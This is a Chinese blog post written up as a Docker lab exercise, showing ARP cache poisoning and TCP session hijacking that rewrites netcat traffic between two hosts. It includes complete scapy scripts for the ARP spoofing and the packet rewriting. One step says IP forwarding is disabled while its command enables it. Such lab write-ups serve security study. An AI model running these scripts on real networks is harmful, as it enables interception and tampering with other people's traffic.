 ```yaml
---
layout:     post
title:      arp欺骗+TCP序列号攻击
subtitle:   arp欺骗+TCP序列号攻击
date:       2023-04-04
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - linux
---
```

# arp欺骗+TCP序列号攻击

`1.实验环境`

任意两台相互能通信的机器HostA、HostB+一台攻击机HostM。

本文在Ubuntu上创建3个docker。

IP_A=“192.168.60.2”

IP_M=“192.168.60.3”

IP_B=“192.168.60.4”

MAC_A=‘02:42:c0:a8:3c:02’

MAC_M=‘02:42:c0:a8:3c:03’

MAC_B=‘02:42:c0:a8:3c:04’

`2.攻击对象`

攻击nc连接中，A向B发送数据的过程。

```
HostA nc监听333端口：nc -lv 333
HostB nc连接333端口：nc 192.168.60.2 333
```

`3.攻击目的`

将A向B发送的数据篡改为固定的字符串'U000011222_shandianchengzi\n'。

`4.最终效果`

![](img/20-21-58.png)

## 实验步骤

### 实验环境搭建

利用docker搭建3台ubuntu服务器，并且指定ip，使其能相互ping通

1.搭建网卡

docker network create --subnet=192.168.60.0/24 --gateway=192.168.60.1 docker-intranet

2.指定网卡和IP

sudo docker run -it --name=HostA --hostname=HostA --net=docker-intranet --ip=192.168.60.2 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostB --hostname=HostB --net=docker-intranet --ip=192.168.60.4 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostM --hostname=HostM --net=docker-intranet --ip=192.168.60.3 --privileged "ubuntu" /bin/bash

并在其中安装nc和python环境

```
sed -i s@/archive.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

sed -i s@/security.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

apt-get clean

apt-get update

apt install net-tools

apt-get install vim

apt-get -y install netcat-traditional

update-alternatives --config nc
```

### ARP欺骗
首先，关闭ip转发：

```
sysctl net.ipv4.ip_forward=1
```

然后，对HostA、B进行ARP欺骗，在HostM上运行ARP欺骗程序：

```
from scapy.all import *
from time import *

IP_A    = "192.168.60.2"
IP_B    = "192.168.60.4"
MAC_M     = "02:42:c0:a8:3c:03"

print("SENDING SPOOFED ARP REQUEST......")

ether = Ether()
ether.dst = "ff:ff:ff:ff:ff:ff"
ether.src = "02:42:c0:a8:3c:03"

arp = ARP()
arp.psrc  = IP_B
arp.hwsrc = MAC_M
arp.pdst  = IP_A
arp.op = 1
frame1 = ether/arp
arp2 = ARP()
arp2.psrc = IP_A
arp2.hwsrc = MAC_M
arp2.pdst = IP_B
arp2.op = 1
frame2 = ether/arp2
while 1:
  sendp(frame1)
  sendp(frame2)
  sleep(5)
```

![](img/20-32-06.png)

并在AB间建立nc即时对话。

HostA运行：nc -lp 333

HostB运行：nc 192.168.60.2 333

### TCP序列号攻击

Hostm作为中间人，记录HostA发给HostB的Seq号、HostB发给HostA的Ack号，HostM用A的字符串长度计算给HostA的ACK包中的Seq和Ack，用’U000011222_shandianchengzi\n’的长度计算给HostB的Seq号，就可以伪造正确的序列号。

```
from scapy.all import *
IP_A="192.168.60.2"
IP_B="192.168.60.4"
MAC_A='02:42:c0:a8:3c:02'
MAC_M='02:42:c0:a8:3c:03'
MAC_B='02:42:c0:a8:3c:04'
temp={'SEQ':0,'ACK':0,'LEN':0,'ACK2':0}
def spoof_pkt(pkt):
  try:
    if(pkt.src==MAC_M):
      return
    if(pkt[IP].src==IP_A and pkt[IP].dst==IP_B):
      pkt.src=MAC_M
      pkt.dst=MAC_B
      temp['LEN']=len(pkt[TCP].load)
      temp['SEQ']=pkt[TCP].seq
      if(temp['ACK2']): #new
        pkt[TCP].seq=temp['ACK2'] #new
      temp['ACK']=pkt[TCP].ack
      pkt[IP].len=79
      pkt[TCP].load='U000011222_shandianchengzi\n'
      pkt.show()
    elif(pkt[IP].src==IP_B and pkt[IP].dst==IP_A):
      pkt.src=MAC_M
      pkt.dst=MAC_A
      if(pkt[TCP].seq==temp['ACK']):
        temp['ACK2']=pkt[TCP].ack #new
        pkt[TCP].ack=temp['SEQ']+temp['LEN']
    del(pkt.chksum)
    del(pkt[TCP].chksum)
    #pkt.show()
    sendp(pkt)
  except Exception as e:
    print("[-] Error = "+str(e))
    if(pkt.type!=2054 and str(e)!="load"):
      pkt.show()
    try:
      sendp(pkt)
    except Exception as e2:
      pass

f= "host "+IP_A+" and host "+IP_B+" and tcp"
pkt = sniff(filter=f,iface='eth0', prn=spoof_pkt)
```

![](img/20-32-57.png)

现象

![](img/20-21-58.png)
